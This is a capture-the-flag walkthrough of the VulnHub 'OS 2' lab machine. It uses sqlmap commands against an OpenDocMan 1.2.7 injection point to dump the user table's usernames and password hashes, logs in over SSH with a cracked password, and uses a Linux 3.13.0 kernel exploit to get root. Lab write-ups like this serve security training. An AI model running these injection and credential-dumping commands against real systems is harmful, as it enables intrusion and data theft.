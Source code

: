 # ***VulnHub OS - 2***
> Keertan singh, 06/19/2022

## Let's crack it
- IP Address of Machine : 
```
export IP=192.168.X.X
```

- As we can see that this section is hidden, and when we highlight it, we get to know that we have to go to:
```
http:<your_Machine_ip>/jabcd0cs/
```
![alt text](/jabcd0cs.png)

- We can see that this is 'opendocman v1.2.7'. which is vulnerable. to let search exploit for it...
![alt text](/opendocmanversion.png)

- Here is exploit for it...
![alt text](/openexploit.png)
![alt text](/openhint.png)

- Get all the data base, There is 'jabcdos' database with is look interest.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" --dbms=mysql --dbs
```
![alt text](/database.png)

- let find all the table of jabcd0cs database.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs --dbms=mysql --tables
```

- let find all the columns of odm_user's tables.
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs -T odm_user --dbms=mysql --columns
```

- Let dump the data..
```
sqlmap -u "http://192.168.240.108/jabcd0cs//ajax_udf.php?q=1&add_value=odm_user *" -D jabcd0cs -T odm_user -C username,password,email,phone --dbms=mysql --dump
```
![alt text](/credientials.png)

- we got a username as webmin and its password in hash form. so let's crack this hash.
![alt text](/webmin%20pass.png)

- Password of webmin is:
```
webmin1980
```
- we know that ssh port is open on this machine, so we can login..
![alt text](/login.png)

- Type uname -a command and we get to know that it has 'linux kernal version 3.13.0'. that is vulnerable too.. :
```
uname -a
```

- let's find exploit for this..
```
searchsploit linux 3.13.0
```
![alt text](/expolit.png)

 - I have get this expolit in my current directory, and starting python server, so that we can download..
 ![alt text](/python.png)

 - I have download this kernal.c file on our machine..
 ![alt text](/dow.png)
 - So let's get root access and flag...
 ![alt text](/donw.png)



